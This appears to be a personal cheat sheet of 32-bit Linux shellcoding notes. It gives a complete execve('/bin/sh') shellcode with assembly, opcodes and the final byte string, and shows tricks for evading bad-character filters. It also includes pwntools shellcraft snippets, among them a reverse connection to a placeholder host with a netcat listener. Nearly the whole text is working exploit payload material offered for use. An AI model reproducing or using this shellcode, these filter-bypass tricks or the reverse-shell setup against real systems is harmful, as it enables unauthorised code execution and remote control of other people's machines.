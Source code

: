# basic 32 bit shell code

## EXECVE
```
execve("/bin/sh", 0,  0    )   
         ebx     ecx  edx     eax=0xb
```

## 32 bit shellcode

```

assmebly code       what it does                                    assmebly's opcode

xor     eax,eax                                                         31 c0
push    eax         // push \x00 to stack                               50    
push    0x68732f2f  // pushing /bin/bash\x00                            68 2f 2f 73 68  
push    0x6e69622f                                                      68 2f 62 69 6e
mov     ebx, esp    // now ebx=esp, i.e is /bin/bash\x00                89 e3
push    eax                                                             50
push    ebx                                                             53
mov     ecx, esp   // now ecx = ["/bin/sh","\x00"]                      89 e1
mov     al, 0xb                                                         b0 0b   
int     0x80                                                            cd 80
```

> Note:  value of ecx can be null i.e \x00 in execve

gives 
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

* Now we can play with it like using `mov eax,0xffffffff , inc eax` to make eax 0 if `xor eax,eax` not there.




# Good tricks


## Jummp to a label if condition not true


```
asm(
    "cmp eax,0x100\n" +
    "jnz jumpHere\n"  +
    shellcraft.pushstr('/bin/bash') +
    "mov ebx, esp\n" + 
    shellcraft.pushstr_array('ecx', ['/bin/bash', '-c', 'ls']) + 
    "xor edx, edx\n" + 
    "int 0x80\n" +
    "jumpHere:\n" +
    "nop"
)
```

## Cannot have upper case A-Z in shellcode

well its ez , suppose we have a shellcode
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

make a simple py script to find un-wanted characters:
```
def checker(s):
    for i in s:
        if ord('A') <= ord(i) <= ord('Z'):
            print("not working by : {} i.e 0x{:2x}".format(i,ord(i)))



d="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
checker(d)
```

this tells `\x50` this is `push eax` and `\x53` this is `push ebx` are the once we cant have.<br />
so replace `push eax` with `sub esp,0x4; mov [esp],eax;` <br/>
thus we can find way to bypass any such restriction just think Out of B.


## Jump to current addr + n


* The 2 byte Opcode `\x04\xeb` is used to jump at `current_addr + 4` .

> similarly \x09\xeb is for 9 bytes and so on, until \xff


# ShellCraft : shellcoding

USE 
* shellcraft.i386 for 32 bit binary
* shellcraft.amd64 for 64 bit binary
* shellcraft.arm for arm
* shellcraft.mips for mips

refer : http://docs.pwntools.com/en/stable/shellcraft.html


## making a reverse connection

we ran a nc -l -p 55555 on a server, `edx contains the socket descriptor`

```
shellcraft.i386.linux.connect("1.2.3.4", 55555)
```

## push, pushstr and pushstr_array

### push
push a int val to stack
```
asm(
    shellcraft.i386.push(0)

)
```

### pushstr

Push a string onto stack
```
asm(
    shellcraft.pushstr('/bin/bash') +
    "mov eax,esp\n"
) 
```

### pushstr_array

Pushes an array/envp‐style array of pointers onto the stack.
```
shellcraft.pushstr_array('ecx', ['/bin/bash', '-c', 'ls'])
```


## Complete list of function

* [shellcode detailed](./docx/32bit-shellcode.pdf)
